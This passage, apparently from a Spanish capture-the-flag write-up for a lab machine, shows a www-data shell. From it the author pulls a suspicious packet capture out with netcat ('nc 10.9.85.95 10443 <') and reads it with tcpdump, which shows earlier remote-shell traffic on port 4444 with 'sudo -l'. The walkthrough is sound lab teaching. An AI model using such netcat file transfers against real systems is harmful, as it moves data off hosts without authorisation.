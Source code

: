 ```bash
www-data@startup:/$
```

Asi mismo, en dicho directorio, vemos `incidents`, cuya carpeta pertenece al usuario `www-data`, así que vamos a ingresar para ver el contenido.

```bash
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 05:51 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
www-data@startup:/incidents$ 
```

Tenemos un archivo `pcapng`, por lo tanto vamos llevarlo a nuestra máquina para ver el contenido:

```bash
www-data@startup:/incidents$ nc 10.9.85.95 10443 < suspicious.pcapng 
www-data@startup:/incidents$ md5sum suspicious.pcapng 
f76148f80bf651f94619f18958e1fb4c  suspicious.pcapng
www-data@startup:/incidents$
```

```bash
❯ nc -nlvp 10443 > suspicious.pcapng
listening on [any] 10443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.111.163] 44830
❯ md5sum suspicious.pcapng
f76148f80bf651f94619f18958e1fb4c  suspicious.pcapng
```

Ahora si, observemos el contenido:

```bash
❯ tcpdump -qns 0 -A -r suspicious.pcapng | less
12:40:18.078837 IP 192.168.22.139.55280 > 13.32.85.44.443: tcp 0
E..(..@.@..5..... U,....cb..R..;P..<9...
12:40:18.079287 IP 13.32.85.44.443 > 192.168.22.139.55280: tcp 0
E..( 
.....F. U,........R..;cb..P....A........
12:40:18.335026 IP 192.168.22.139.38750 > 104.107.60.16.80: tcp 0
E..(..@.@..h....hk<..^.Pu.}UvZ WP..p{...
12:40:18.335159 IP 192.168.33.1.48974 > 192.168.33.10.80: tcp 0
E..4.s@.@.....!...!
.N.P.$q....?...?=......
.i\....F
...
12:41:33.666734 IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 8
E..<.|@.@............\....../5.U...@.......
*.?.*...sudo -l

12:41:33.670131 IP 192.168.22.139.40934 > 192.168.22.139.4444: tcp 9
E..=%.@.@.gM...........\/5.U.......@.......
*.?.*.?.sudo -l

12:41:33.670148 IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 0
E..4.}@.@............\....../5.^...@.......
*.?.*.?.
12:41:33.683386 IP 192.168.22.139.40934 > 192.168.22.139.4444: tcp 30
E..R%.@.@.g7...........\/5.^.......@.......
*.@     *.?.[sudo] password for www-data: 
12:41:33.683399 IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 0
E..4.~@.@............\....../5.|...@.......
*.@     *.@     
12:41:36.248419 IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 19
```